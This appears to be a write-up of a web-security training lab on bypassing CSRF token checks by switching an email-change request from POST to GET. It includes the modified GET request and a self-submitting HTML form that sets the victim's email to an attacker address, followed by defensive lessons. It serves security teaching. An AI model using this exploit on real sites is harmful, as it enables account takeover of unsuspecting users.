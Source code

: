 
# Lab: CSRF Where Token Validation Depends on Request Method

## Lab Description
This lab contains a Cross-Site Request Forgery (CSRF) vulnerability in the email change functionality of a web application. The application attempts to protect against CSRF attacks by validating a CSRF token, but only for certain request methods. Specifically, the CSRF token validation is enforced on POST requests but not on GET requests, allowing attackers to bypass CSRF protections by changing the request method.

---

## Objective

* Identify the CSRF protection mechanism in place.
* Exploit the vulnerability by crafting a CSRF attack that changes the victim’s email address.
* Use the knowledge that the CSRF token is not validated for GET requests to bypass protections.

---

## Environment Setup

* Target URL: `https://<lab-id>.web-security-academy.net/my-account/change-email`
* Credentials:  
  Username: `wiener`  
  Password: `peter`
* Tools used:
  * Burp Suite (Proxy, Repeater)
  * Browser (for exploit hosting and testing)

---

## Step-by-Step Exploit Walkthrough

### 1. Log In and Observe the Email Change Request

* Log in as user `wiener`.
* Intercept the request to change the email address using Burp Suite Proxy.
* Notice that the email change is done via a POST request with a CSRF token parameter:
```

POST /my-account/change-email
Content-Type: application/x-www-form-urlencoded

email=[wiener3@gmail.com](mailto:wiener3@gmail.com)\&csrf=valid-csrf-token

```


### 2. Test CSRF Token Enforcement

* Modify the CSRF token to an invalid value and send the POST request.
* Observe that the server rejects the request due to invalid CSRF token.


![Weakness](./findingweakness.png)


---

### 3. Change the Request Method to GET

* Use Burp Suite Repeater’s “Change request method” feature to change the request from POST to GET.
* Remove the CSRF token parameter.
* Send the GET request:
```

GET /my-account/change-email?email=[attacker@evil.com](mailto:attacker@evil.com)

````
* Observe that the server accepts the request and changes the email address without requiring a CSRF token.

---

### 4. Craft CSRF Exploit HTML

* Create an HTML page that automatically submits a GET request to change the email:
```html
<form action="https://<lab-id>.web-security-academy.net/my-account/change-email" method="GET">
  <input type="hidden" name="email" value="attacker@evil.com">
</form>
<script>
  document.forms[0].submit();
</script>
````

* Host this HTML on the exploit server provided by the lab.

---

### 5. Deliver the Exploit

* Visit the exploit URL to simulate the victim visiting a malicious site.
* The victim’s browser automatically submits the GET request with their authentication cookie.
* The victim’s email is changed to `attacker@evil.com`, bypassing CSRF protections.

![Exploit](./Exploit.png)

---

## Payloads Used

| Description                  | Payload/Technique                               |
| ---------------------------- | ----------------------------------------------- |
| CSRF exploit with GET method | `<form action=".../change-email" method="GET">` |

---

## Lessons Learned

* CSRF token validation must be enforced on **all** state-changing HTTP methods, including GET.
* Relying on HTTP method to skip CSRF validation is insecure.
* Auto-submitting forms with GET can bypass token protections if not properly enforced.
* Proper CSRF defenses include consistent token validation and avoiding side-effects on GET requests.

---

## Conclusion

This lab demonstrates a subtle CSRF vulnerability where token validation depends on the HTTP request method. Attackers can exploit this by switching from POST to GET requests to bypass CSRF protections and perform unauthorized actions on behalf of the victim. Properly enforcing CSRF tokens on all methods and avoiding unsafe state changes on GET requests are critical for security.
